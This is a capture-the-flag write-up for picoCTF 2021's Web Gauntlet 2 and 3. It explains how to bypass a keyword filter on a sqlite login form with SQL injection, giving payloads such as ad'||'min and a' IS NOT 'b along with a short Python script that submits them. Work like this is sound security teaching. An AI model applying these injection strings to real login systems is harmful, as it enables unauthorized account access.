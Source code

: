 ```yaml
---
layout: post
title:  "Web Gauntlet - Web"
date:   2021-03-30 12:28:05 +0100
categories: writeups
---
```


```
Challenge: Web Gauntlet 2 & 3
Author: Shotokhan
Description: SQL injection filter bypass
CTF: picoCTF 2021
Category: Web
```

# Writeup
We have a login form, and we need to perform login as admin. <br>
<br> ![welcome_page](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/web_gauntlet_welcome.jpg?raw=true) <br>
The challenge also gives us a /filter.php endpoint to look for filtered expressions: <br>
```Filters: or and true false union like = > < ; -- /* */ admin``` <br>
Filters are the same for both challenge 2nd and 3rd, but in the 3rd one we have a limit of 25 characters. <br>
From the filter list, it's clearly a SQL injection challenge. <br>
Head to Burp Suite, from a few tests we can see that both username and admin are vulnerable to the injection, and filters apply to both of them. <br>
<br> ![filtered](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/web_gauntlet_filtered.jpg?raw=true) <br>
Note that "password" is filtered because "or" is filtered. <br>
We can also see that input length is "combined input length", which of course is much more limiting. <br>
<br> ![input_too_long](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/web_gauntlet_input_too_long.jpg?raw=true) <br>
Although it wasn't specified in 2nd challenge description, we can check that this one has a combined input length limit, too; the limit is of 35 characters. <br>
From the hints, we see that the underlying DB is sqlite; we can also guess it from filters, because there are the filters for sqlite's comments. <br>
At this point, the first idea is to bypass the filter on admin using a string concatenation, which is done with the || operator in sqlite. <br>
Therefore, as user parameter we pass: ```ad'||'min``` <br>
To avoid getting filtered, we send "pass" as password, and we see that the server leaks the SQL query being made in backend: <br>
<br> ![query_leakage](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/web_gauntlet_not_admin_query_leak.jpg?raw=true) <br>
Now that we know the query, we can open a sqlite3 shell with an in-memory database to do some offline tests. <br>
The first thing to do is to create a table. <br>
Since the query is: ```SELECT username, password FROM users WHERE username='username' AND password='pass';``` <br>
We create a table like that: <br>
```CREATE table users (username string, password string);``` <br>
Then, we insert a row with username "admin" and a random password: <br>
```INSERT into users (username,password) values ('admin', 'asndaisndiasdn');``` <br>
At this point we're ready to do offline tests. <br>
Since "union" operator is filtered, we look for other set operators in sqlite documentation, and we find "except": <br>
We use ```ad'||'min' EXCEPT SELECT 0,0 FROM users WHERE '1``` as user and a blank password, building the following query: <br>
```SELECT username, password FROM users WHERE username='ad'||'min' EXCEPT SELECT 0,0 FROM users WHERE '1' AND password='';``` <br>
It works locally, but it has too many characters for both challenges. <br>
What are we doing wrong here is: we can inject on both parameters, but we're trying to bypass the filter injecting on username only. <br>
We can't use operators like OR and AND on password because they're filtered, so let's try to use concatenation again. <br>
We know that the right password is stored in "password" column, and if we did the following: <br>
```SELECT username, password FROM users WHERE username='ad'||'min' AND password=password;``` <br>
It would pass for sure. <br>
To achieve that, we need string concatenation, so we use ```ad'||'min``` as username and ```'||password||'``` as password, building: <br>
```SELECT username, password FROM users WHERE username='ad'||'min' AND password=''||password||'';``` <br>
Again, it works locally but we're very unlucky because the filter on OR also filters passwORd. <br>
At this point, what we can do is to look for some operator which has precedence over AND but that is not filtered. <br>
Operators "IS" and "IS NOT" are good candidates. <br>
Well, we use the same username, and as password we use ```a' IS NOT 'b```, building: <br>
```SELECT username, password FROM users WHERE username='ad'||'min' AND password='a' IS NOT 'b';``` <br>
It works both locally and remotely, with both challenges (we solved both challenges with the same payload!) <br>
<br> ![congrats_you_won](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/web_gauntlet_congrats_you_won.jpg?raw=true) <br>
The last thing to do to get the flag is to visit /filter.php within the same session: <br>
<br> ![flag](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/web_gauntlet_flag.jpg?raw=true) <br>
We thought it was useful to also add a little script to the writeup: <br>

{% highlight python %}
import requests


if __name__ == "__main__":
    base_url = "http://mercury.picoctf.net:32946/"
    data = {"user": "ad'||'min", "pass": "a' IS NOT 'b"}
    session = requests.Session()
    r = session.post(base_url + "index.php", data=data)
    if "Congrats" in r.text:
        r = session.get(base_url + "filter.php")
        print(r.text)
{% endhighlight %}

